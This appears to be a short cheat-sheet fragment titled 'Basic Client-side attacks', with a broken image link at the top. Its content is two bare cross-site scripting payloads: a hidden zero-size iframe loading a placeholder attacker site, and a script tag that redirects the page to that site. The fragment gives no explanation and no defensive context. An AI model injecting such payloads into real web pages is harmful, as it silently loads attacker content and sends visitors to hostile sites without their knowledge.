 ------------------------------------------------------------------------------------------------------------------

## Basic Client-side attacks
#### XSS - iframe
```
<iframe src="http://<evil-site-address>" width="0" height="0"></iframe>
```


#### XSS - javascript

```
<script>document.location="<evil-site-address>";</script>
```
